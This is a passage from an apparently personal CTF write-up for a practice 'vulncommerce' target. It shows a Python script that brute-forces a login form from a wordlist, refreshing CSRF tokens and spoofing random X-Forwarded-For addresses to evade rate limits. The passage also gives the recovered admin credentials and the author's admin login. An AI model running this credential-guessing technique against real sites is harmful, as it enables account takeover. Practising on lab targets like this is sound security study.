 ```python
    for word in wordList:
        word = word.rstrip()
        formData['csrf'] = getCSRFToken()
        prevUser = formData['login_username']
        prevPassword = formData['login_password']
        formData['login_username'] = formData['login_username'].format(word)
        formData['login_password'] = formData['login_password'].format(word)
        r = requests.post(siteurl, cookies=ctfchallenge_cookie, data=formData, proxies=burp_proxy, headers= {'X-Forwarded-For': generateRandomIP()})
        if failureText not in r.text:
            return word
        formData['login_username'] = prevUser
        formData['login_password'] = prevPassword

def generateRandomIP():
    return f"94.{random.randint(0,255)}.{random.randint(0,255)}.{random.randint(0,255)}"


username = findUsername()
password = findPassword(username)
print(f"Username is {username}")
print(f"Password is {password}")
```

When it finished I had the following printed out

```
Username is admin
Password is htubcnhfwbz
```

And I can now login and see admins profile

![1](./images/vulncommerce-07.png)

Looks like I skipped a few steps though as this is flag no. 8 :D

So before I go and look at the subdomains lets have a look at the email-signup-trial path we found earlier.
